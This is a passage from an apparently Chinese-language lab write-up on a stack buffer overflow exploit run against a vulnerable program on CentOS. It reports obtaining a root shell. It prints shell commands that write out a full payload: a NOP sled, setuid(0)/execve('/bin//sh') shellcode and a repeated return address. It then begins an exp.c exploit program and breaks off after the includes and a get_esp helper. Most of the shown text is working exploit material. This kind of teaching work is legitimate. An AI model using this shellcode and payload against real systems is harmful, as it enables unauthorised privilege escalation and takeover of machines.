 在centos上执行，成功获得root权限：

![image-20211013081209078](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031940497.png)

7、为了实现精确测定相关地址，gdb调试后发现跳转到0xffffd42c后执行了175条NOP，将shellcode的位置提前175：

```shell
echo -ne "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\xb0\x46\x31\xdb\x31\xc9\x99\xcd\x80\x96\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff" >test2
```

可以正常运行：

![image-20211013100845176](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031940619.png)

为保证没有执行NOP，将\x90替换为'A'（\x41）：

```shell
echo -ne "\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x31\xc0\xb0\x46\x31\xdb\x31\xc9\x99\xcd\x80\x96\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff\x2c\xd4\xff\xff" >test3
```

成功执行：

![image-20211013100823066](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031940257.png)

8、由于buf有300个空间，空间充足，仿照PPT上NSR溢出模式写exp.c：

```c
#include <stdio.h>

#include <unistd.h>

#include <stdlib.h>

#include <sys/types.h>

#include <string.h>


u_long get_esp()
{
	__asm__("movl %esp, %eax");
}
```